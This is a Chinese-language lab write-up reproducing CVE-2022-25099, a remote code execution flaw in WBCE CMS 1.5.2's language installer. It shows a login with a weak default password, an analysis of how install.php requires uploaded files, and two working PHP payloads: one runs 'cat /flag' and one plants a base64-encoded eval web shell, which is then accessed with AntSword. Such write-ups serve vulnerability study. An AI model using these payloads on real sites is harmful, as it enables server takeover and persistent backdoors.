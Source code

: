 ## 1. 漏洞介绍
WBCE CMS v1.5.2 /language/install.php 文件存在漏洞，攻击者可精心构造文件上传造成RCE
CVE 介绍：[CVE - CVE-2022-25099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25099)
## 2. 漏洞复现
开启环境，网上找了下登录地址是 admin/login/index.php，尝试弱口令登录【admin/123456】

![1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281135460.jpg)

根据 CVE 介绍找语言安装/编辑页面

![2.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281135760.jpg)

漏洞源码：[install.php](https://github.com/WBCE/WBCE_CMS/blob/1.5.2/wbce/admin/languages/install.php)，分析源码可知，install.php 先会检查有没有上传文件，上传的文件是不是 PHP文件等，接着会直接用require载入并运行。

![3.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281203187.jpg)

> 在PHP中require语句作用是包含并运行指定文件，与include的区别：include在引入不存文件时产生一个警告且脚本还会继续执行，而require则会导致一个致命性错误且脚本停止执行。

尝试直接上传 php，未成功，看了官方介绍【[WBCE CMS Help - Languages](https://help.wbce-cms.org/pages/the-backend/add-ons/languages.php)】说需要以txt上传，改后缀重新上传。文件内容可自己随便折腾
### 2.1. 示例-1：直接读取flag

```php
<?php
echo system("cat /flag");
?>
```

![4.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281210503.jpg)

![5.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281210051.jpg)

### 2.2. 示例-2：写个webshell

```php
<?php
$pd='/var/www/html/admin/login/'; #这个路径是通过echo system("pwd");测出来的，步骤有所省略
file_put_contents("$pd".'shell.php',base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWyJzaGVsbCJdKSA/Pg==')); /*<?php @eval($_POST["shell"]) ?> #编码后 PD9waHAgQGV2YWwoJF9QT1NUWyJzaGVsbCJdKSA/Pg==*/
echo system("ls $pd");
?>
```

蚁剑连接

![6.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281209880.jpg)

![7.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281209852.jpg)